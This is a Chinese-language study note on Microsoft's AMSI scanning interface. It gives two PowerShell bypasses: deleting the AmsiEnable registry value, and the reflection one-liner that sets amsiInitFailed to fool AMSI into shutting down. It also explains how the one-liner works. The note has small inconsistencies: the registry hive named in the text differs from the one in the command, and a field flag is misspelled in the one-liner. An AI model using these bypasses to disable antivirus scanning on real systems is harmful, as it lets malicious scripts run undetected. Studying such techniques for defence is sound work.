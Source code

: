 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 端点安全
tags:
  - Malware
  - 免杀技术
  - AMSI
excerpt: AMSI(Antimalware Scan Interface) 是微软提供的一个标准化接口，旨在增强恶意软件和其他威胁的检测能力，特别是对于那些运行在Windows操作系统上的脚本和解释型代码
---
```


# AMSI


> [amsi绕过总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11097)

AMSI(Antimalware Scan Interface) 是微软提供的一个标准化接口，旨在增强恶意软件和其他威胁的检测能力，特别是对于那些运行在Windows操作系统上的脚本和解释型代码

> Win10 以及 WindowsSever2016 及之后的版本支持 AMSI 
>
> 低版本(2.0)的powershell是没有amsi的，所以在powershell2.0上执行恶意脚本就不会被检测到
>
> ![image-20240102052708985](http://cdn.ayusummer233.top/DailyNotes/202401020527019.png)

AMSI使得应用程序(如PowerShell、VBScript、JavaScript等) 可以将执行前的代码发送到安装的防病毒软件进行扫描

----

## AMSI Bypass

通过修改内存中的AMSI相关数据，或者利用AMSI实现中的漏洞可以实现 bypass AMSI 从而缓解检测

---

## 禁用或关闭 AMSI

### 改注册表禁用 AMSI

设置注册表`HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable`设置为 0，以禁用
AMSI。

```powershell
Remove-Item -Path "HKLM:\Software\Microsoft\Windows Script\Settings\AmsiEnable" -Recurse
```



---

### 通过命名空间接口关闭AMSI

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPubilc,Static').SetValue($null,$true)
```

1. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`

   - 获取`System.Management.Automation`命名空间下的`AmsiUtils`类的类型信息。

     `AmsiUtils`是处理AMSI相关操作的内部类。

2. `GetField('amsiInitFailed','NonPublic,Static')`

   - 获取`AmsiUtils`类中名为`amsiInitFailed`的字段。

     这个字段是一个私有(NonPublic) 静态(Static) 字段，用于指示AMSI是否初始化失败。

3. `SetValue($null,$true)`

   - 将`amsiInitFailed`字段的值设置为`$true`，意味着伪造AMSI初始化失败的状态。

     这样做的效果是使AMSI停止工作，因为系统认为AMSI无法正确初始化。

